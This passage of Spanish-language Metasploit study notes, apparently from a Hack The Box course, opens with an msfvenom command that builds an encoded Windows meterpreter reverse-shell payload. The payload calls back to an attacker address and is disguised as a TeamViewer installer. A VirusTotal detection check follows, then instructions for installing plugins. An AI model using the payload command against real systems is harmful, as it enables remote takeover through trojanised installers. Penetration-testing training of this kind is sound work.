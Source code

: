 ```bash
pr0ff3@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```
### MSF Virus-Total

MSF cuenta con una función integrada para la detección de virus en archivos y así comprobar si nuestro payload es detectado como malicioso.

```bash
 msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Plugins

Mientras que antes necesitábamos alternar entre diferentes programas para importar y exportar resultados, configurando opciones y parámetros una y otra vez, ahora, con el uso de plugins, todo es automáticamente documentado por msfconsole en la base de datos que estamos usando y los hosts, servicios y vulnerabilidades están disponibles de un vistazo para el usuario. Los plugins trabajan directamente con la API y pueden ser usados para manipular todo el framework.

Para ver los plugins disponibles oficiales de msfconsole, podemos visitar la siguiente [página](https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf/Plugin).

Para listar los plugins disponibles en nuestro sistema:

```bash
ls /usr/share/metasploit-framework/plugins
```
### Instalar plugins

Por ejemplo si queremos instalar el plugin DarkOperator`s Metasploit-Plugins:

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
```
Navegamos a la carpeta y copiamos todos o los plugins que necesitemos a la carpeta de plugins de Metasploit.

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
```
### Cargar plugins

Para cargar los plugins de Metasploit, ejecutamos el siguiente comando:

```bash
msf6 > load pentest
```
### Algunos plugins

| Herramienta       | Enlace                                                                                       |
|-------------------|---------------------------------------------------------------------------------------------|
| NMAP              | [https://nmap.org/](https://nmap.org/)                                                     |
| Mimikatz          | [http://blog.gentilkiwi.com/mimikatz](http://blog.gentilkiwi.com/mimikatz)                 |
| Priv              | [https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/rex/post/meterpreter/extensions/priv/priv.rb) |
| NexPose           | [https://sectools.org/tool/nexpose/](https://sectools.org/tool/nexpose/)                   |
| Stdapi            | [https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Stdapi) |
| Incognito         | [https://www.offensive-security.com/metasploit-unleashed/fun-incognito/](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) |
| Nessus            | [https://www.tenable.com/products/nessus](https://www.tenable.com/products/nessus)         |
| Railgun           | [https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation) |
| DarksOperator     | [https://github.com/darkoperator/Metasploit-Plugins](https://github.com/darkoperator/Metasploit-Plugins) |